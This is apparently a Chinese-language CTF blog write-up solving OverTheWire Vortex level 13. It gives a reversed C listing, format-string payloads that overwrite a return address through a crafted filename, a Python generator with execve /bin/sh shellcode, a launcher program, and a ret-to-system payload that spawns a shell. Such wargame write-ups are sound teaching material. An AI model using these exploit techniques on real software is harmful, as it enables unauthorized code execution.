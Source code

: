 ```yaml
---
title: OverTheWire Vertex Level 13 → Level 14
author: Ripples
layout: post
views:
  - 260
categories:
  - CTF
tags:
  - buffer overflow
  - reversing
  - vortex
  - wargame
  - WriteUp
---
```

<p style="text-indent: 2em;">
  由于要当码农，已经好几天没有时间做vortex了，现在刚有了点时间，回来继续奋战，结果真是被虐的一塌糊涂。
</p>

<p style="text-indent: 2em;">
  原题参见<a href="http://overthewire.org/wargames/vortex/vortex13.html" target="_blank">这里</a>。
</p>

<p style="text-indent: 2em;">
  首先还是逆向，得到仿写的程序如下：
</p>

<!--more-->

<pre class="brush:cpp;toolbar:false">char&nbsp;*allowed&nbsp;=&nbsp;"ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789%.$x0A";

void&nbsp;vuln()
{
&nbsp;&nbsp;&nbsp;&nbsp;int&nbsp;size&nbsp;=&nbsp;0x14;
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*s&nbsp;=&nbsp;malloc(size);
&nbsp;&nbsp;&nbsp;&nbsp;fgets(s,&nbsp;size,&nbsp;stdin);
&nbsp;&nbsp;&nbsp;&nbsp;for&nbsp;(int&nbsp;i&nbsp;=&nbsp;0;&nbsp;i&nbsp;&lt;=&nbsp;0x13;&nbsp;++i)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;(!strchr(allowed,&nbsp;s[i]))&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit(1);
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;printf(s);
&nbsp;&nbsp;&nbsp;&nbsp;free(s);
}

int&nbsp;main(int&nbsp;argc,&nbsp;char&nbsp;*argv[])
{
&nbsp;&nbsp;&nbsp;&nbsp;if&nbsp;(argc&nbsp;!=&nbsp;0)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;exit(1);
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;extern&nbsp;char&nbsp;**environ;
&nbsp;&nbsp;&nbsp;&nbsp;for&nbsp;(char&nbsp;**p&nbsp;=&nbsp;environ;&nbsp;*p;&nbsp;++p)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;for&nbsp;(char&nbsp;*s&nbsp;=&nbsp;p;&nbsp;*s;&nbsp;++s)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;*s&nbsp;=&nbsp;0;
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;for&nbsp;(char&nbsp;**p&nbsp;=&nbsp;argv;&nbsp;*p;&nbsp;++p)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;for&nbsp;(char&nbsp;*s&nbsp;=&nbsp;p;&nbsp;*s;&nbsp;++s)&nbsp;{
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;*s&nbsp;=&nbsp;0;
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;}
&nbsp;&nbsp;&nbsp;&nbsp;vuln();
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;0;
}</pre>

<p style="text-indent: 2em;">
  看到这个程序，真的是不得不说，这也太狠了点吧，清空了参数和环境变量，然后只给了19个字符的输入空间，这19个字符的取值范围还被限定了，要通过这19个字符来控制程序，还是不可运行的栈，这真是shellcode也不止这点长度了。反正如果就我个人看到的第一感而言，这程序保护的简直无懈可击。
</p>

<p style="text-indent: 2em;">
  这个程序想来应该很明确是通过printf的格式化字符串溢出攻击，但通过这19个字符我们应该使程序跳到哪里去却是一个巨大的问题。
</p>

<p style="text-indent: 2em;">
  仔细观察程序，我们会发现，我们可以跳转到char *s = malloc(size)这一句那里，然后在跳转之前，我们先修改好size，这样，程序就会再次运行vuln，为我们开辟出一块更大的空间，突破了长度的限制。然后，由于在strchr的检查循环中，固定是i <= 0<a></a>x13而不是i < size，这样，我们就可以在20个字符后面接上非allowed中的字符了，看起来似乎柳暗花明了。
</p>

<p style="text-indent: 2em;">
  然而，printf的格式化字符串溢出，需要在栈中某个地方存储修改的目标地址，可是argv和env全都被清空了，如何将地址传递进来成了最大的问题，迈不出这第一步，一切想法都是浮云。
</p>

<p style="text-indent: 2em;">
  在纠结了N久之后，终于发现，除了argv和env，其实还有一个东西能把数据传进去，只是一直被忽略了，那就是在env后面，还存储了一份文件名，而linux下，文件名几乎可以为任意字符。这样，我们就可以通过文件名来携带我们需要的不可见字符了。
</p>

<p style="text-indent: 2em;">
  首先在文件名后加上16个0xff，gdb后发现，为了对齐，需要在最后再加3个字符。然后vuln的栈桢ebp为0xffffde38，文件名的第一个0xffffffff地址为0xffffdfe4，可以计算出，printf的时候，%117$对应着这个0xffffffff，我们也可以通过运行程序后输入%117$8x来测试。
</p>

<p style="text-indent: 2em;">
  然后，查看到我们需要跳转到的目标地址为0<a></a>x08048551，而printf本身的返回地址为0x080485d7，那么为了节省格式化字符串的长度，我们只需要能修改最后一个字节即可，但是由于最少为%hn，即我们需要修改最后两个字节。
</p>

<p style="text-indent: 2em;">
  首先修改运行程序名：
</p>

<pre class="brush:bash;toolbar:false">cp&nbsp;./vortex13&nbsp;`python&nbsp;-c&nbsp;&#39;print&nbsp;"vortex"&nbsp;+&nbsp;"x0cxdexffxffx28xdexffxff"&nbsp;+&nbsp;"a"&nbsp;*&nbsp;11&#39;`</pre>

<p style="text-indent: 2em;">
  其中0xffffde0c的位置上存储着printf的返回地址，0xffffde28的位置上存储着size。
</p>

<p style="text-indent: 2em;">
  这样想要修改返回地址，我们需要输入%34129x%117$hn，修改size，我们需要输入%118$n，这样最终得到输入字符串为：
</p>

<pre class="brush:plain;toolbar:false;">%34129x%117$hn%118$n</pre>

<p style="text-indent: 2em;">
  然而，数完长度之后，瞬间有种要崩溃的即视感，竟然不多不少，正好20个字符，超出限制的19个字符一个字符，而这个长度已经极限了，那么也就是说，我们这个方案告吹。
</p>

<p style="text-indent: 2em;">
  再仔细观察fgets(s, size, stdin)对应的汇编代码：
</p>

<pre class="brush:plain;toolbar:false;">&nbsp;&nbsp;&nbsp;0x804855f&nbsp;&lt;vuln+27&gt;:	mov&nbsp;&nbsp;&nbsp;&nbsp;0x804a030,%eax
&nbsp;&nbsp;&nbsp;0x8048564&nbsp;&lt;vuln+32&gt;:	mov&nbsp;&nbsp;&nbsp;&nbsp;%eax,%edx
&nbsp;&nbsp;&nbsp;0x8048566&nbsp;&lt;vuln+34&gt;:	mov&nbsp;&nbsp;&nbsp;&nbsp;-0x10(%ebp),%eax
&nbsp;&nbsp;&nbsp;0x8048569&nbsp;&lt;vuln+37&gt;:	mov&nbsp;&nbsp;&nbsp;&nbsp;%edx,0x8(%esp)
&nbsp;&nbsp;&nbsp;0x804856d&nbsp;&lt;vuln+41&gt;:	mov&nbsp;&nbsp;&nbsp;&nbsp;%eax,0x4(%esp)
&nbsp;&nbsp;&nbsp;0x8048571&nbsp;&lt;vuln+45&gt;:	mov&nbsp;&nbsp;&nbsp;&nbsp;-0xc(%ebp),%eax
&nbsp;&nbsp;&nbsp;0x8048574&nbsp;&lt;vuln+48&gt;:	mov&nbsp;&nbsp;&nbsp;&nbsp;%eax,(%esp)
&nbsp;&nbsp;&nbsp;0x8048577&nbsp;&lt;vuln+51&gt;:	call&nbsp;&nbsp;&nbsp;0x8048430&nbsp;&lt;fgets@plt&gt;</pre>

<p style="text-indent: 2em;">
  我们只要跳到0x804856d处，fgets的长度限制就会变，至于变成多少，就要看跳转过来时eax的状况了，而实际情况中，这个时候eax的值不小。但是这样我们确实把fgets的size参数改掉了，但同时，我们也丢失了fgets的第三个参数stream，但仔细观察程序+gdb，我们会惊喜的发现，后面的函数都没有用到第三个参数的位置，那么也就是说，只要我们不修改，第三个参数应该和上一次fgets的时候一样，这正如我们所愿。
</p>

<p style="text-indent: 2em;">
  于是乎，通过以下输入：
</p>

<pre class="brush:plain;toolbar:false">%34157x%117$hn
%34129x%117$hn%118$n</pre>

<p style="text-indent: 2em;">
  我们完全控制了我们可以输入的字符长度。
</p>

<p style="text-indent: 2em;">
  由于栈不可运行，我们将shellcode通过第三次输入，放到堆中，然后跳转执行即可。
</p>

<p style="text-indent: 2em;">
  通过gdb，得到第一次malloc分配出来的地址为0x0804b008，第二次为0x0804b020，于是得到输入如下：
</p>

<pre class="brush:plain;toolbar:false">%34157x%117$hn
%34129x%117$hn%118$n
%45108x%117$hnaaaaaa{shellcode}</pre>

<p style="text-indent: 2em;">
  其中，45108=0xb034，而shellcode的起始地址为0x0804b034，运行：
</p>

<pre class="brush:bash;toolbar:false">cp&nbsp;/vortex/vortex13&nbsp;`python&nbsp;-c&nbsp;&#39;print&nbsp;"/tmp/vortex"&nbsp;+&nbsp;"x0cxdexffxffx28xdexffxff"&nbsp;+&nbsp;"a"&nbsp;*&nbsp;11&#39;`
./generate.py&nbsp;&gt;&nbsp;payload
cat&nbsp;payload&nbsp;|&nbsp;./startup</pre>

<p style="text-indent: 2em;">
  generate.py：
</p>

<pre class="brush:python;toolbar:false">#!/usr/bin/env&nbsp;python

shellcode&nbsp;=&nbsp;"jx0bXx991xc9Rh//shh/binx89xe3xcdx80"
print(&#39;%34157x%117$hn&#39;)
print(&#39;%34129x%117$hn%118$n&#39;)
print(&#39;%45108x%117$hn&#39;&nbsp;+&nbsp;&#39;aaaaaa&#39;&nbsp;+&nbsp;shellcode)</pre>

<p style="text-indent: 2em;">
  startup.c：
</p>

<pre class="brush:cpp;toolbar:false">#include&nbsp;&lt;unistd.h&gt;

int&nbsp;main(int&nbsp;argc,&nbsp;char&nbsp;*argv[])
{
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*arg[]&nbsp;=&nbsp;{NULL};
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*env[]&nbsp;=&nbsp;{NULL};
&nbsp;&nbsp;&nbsp;&nbsp;execve("/tmp/vortex""x0cxdexffxffx28xdexffxff""aaa",&nbsp;arg,&nbsp;env);
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;0;
}</pre>

<p style="text-indent: 2em;">
  然而，运行后，结果并不如所愿，竟然崩溃了，最后无奈的发现，堆也是不可运行的。
</p>

<p style="text-indent: 2em;">
  于是乎，我们采用和上关一样的方式，调用system("/bin/sh")，system地址为0xf7e67280，利用输入传入字符串/bin/sh，得到payload如下：
</p>

<pre class="brush:plain;toolbar:false">%34157x%117$hn
%29312x%117$hn%34150x%118$hn%47194x%119$hn%22468x%120$hn/bin/sh</pre>

<pre class="brush:bash;toolbar:false">cp&nbsp;/vortex/vortex13&nbsp;`python&nbsp;-c&nbsp;&#39;print&nbsp;"/tmp/vortex"&nbsp;+&nbsp;"x0cxdexffxffx0exdexffxffx14xdexffxffx16xdexffxffaaa"&#39;`</pre>

<p style="text-indent: 2em;">
  startup.c：
</p>

<pre class="brush:cpp;toolbar:false">#include&nbsp;&lt;unistd.h&gt;

int&nbsp;main(int&nbsp;argc,&nbsp;char&nbsp;*argv[])
{
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*arg[]&nbsp;=&nbsp;{NULL};
&nbsp;&nbsp;&nbsp;&nbsp;char&nbsp;*env[]&nbsp;=&nbsp;{NULL};
&nbsp;&nbsp;&nbsp;&nbsp;execve("/tmp/vortex""x0cxdexffxffx0exdexffxffx14xdexffxffx16xdexffxff""aaa",&nbsp;arg,&nbsp;env);
&nbsp;&nbsp;&nbsp;&nbsp;return&nbsp;0;
}</pre>

<p style="text-indent: 2em;">
  这样，运行startup，输入payload，我们成功拿到shell。然而，不幸再次降临，我们拿到的shell是没有权限的，稍微一想便会发现，由于我们的cp命令，文件已经变了，权限没了，一切都白瞎。
</p>

<p style="text-indent: 2em;">
  思前想后，想用链接，然而，创建硬链接会得到如下错误：
</p>

<pre class="brush:plain;toolbar:false">ln:&nbsp;failed&nbsp;to&nbsp;create&nbsp;hard&nbsp;link&nbsp;`/tmp/vortexf336377377 16336377377 24336377377 26336377377aaa&#39;&nbsp;=&gt;&nbsp;`/vortex/vortex13&#39;:&nbsp;Invalid&nbsp;cross-device&nbsp;link</pre>

<p style="text-indent: 2em;">
  那就只能创建软链接了（不过软链接似乎在某些情况下，gdb进去会发现运行程序名还是/vortex/vortex13），反正至少用startup调用的时候不会，这样，我们就成功拿到shell。
</p>

<p style="text-indent: 2em;">
  本题虽然解决的不是很满意，但在被虐了N久之后，至少勉强也算过了。
</p>
